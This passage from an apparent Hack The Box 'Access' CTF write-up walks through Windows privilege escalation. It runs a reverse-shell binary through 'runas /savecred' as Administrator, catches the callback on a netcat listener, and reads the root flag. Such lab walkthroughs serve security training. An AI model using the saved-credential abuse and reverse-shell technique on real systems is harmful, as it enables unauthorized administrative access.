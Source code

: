 ## Privilege escalation

The file has been downloaded to the victim. We can check this by running the `dir` command.
```
C:\Users\security\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8164-DB5F

 Directory of C:\Users\security\Desktop

04/15/2024  12:43 PM    <DIR>          .
04/15/2024  12:43 PM    <DIR>          ..
04/15/2024  12:43 PM            73,802 shell.exe
04/15/2024  11:17 AM                34 user.txt
               2 File(s)         73,836 bytes
               2 Dir(s)   3,346,583,552 bytes free
```
Everything is set, so we should run the file as the administrator with saved credentials./
```
C:\Users\security\Desktop>runas /user:ACCESS\Administrator /savecred "C:\Users\security\Desktop\shell.exe"

C:\Users\security\Desktop>

```
Now we should check our netcat listener to see if the connection has been established.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Access]
└─$ sudo rlwrap nc -lvp 443      
[sudo] password for emvee: 
listening on [any] 443 ...
10.129.12.50: inverse host lookup failed: Unknown host
connect to [10.10.14.40] from (UNKNOWN) [10.129.12.50] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```
The connection has been established, now we have to capture the flag and shown that we are the administrator on the victim machine in OSCP style.
```
C:\Windows\system32>whoami
whoami
access\administrator

C:\Windows\system32>cd c:\users\administrator\desktop
cd c:\users\administrator\desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
<HERE IS THE ROOT FLAG>

c:\Users\Administrator\Desktop>whoami
whoami
access\administrator

c:\Users\Administrator\Desktop>hostname
hostname
ACCESS

c:\Users\Administrator\Desktop>ipconfig
ipconfig

```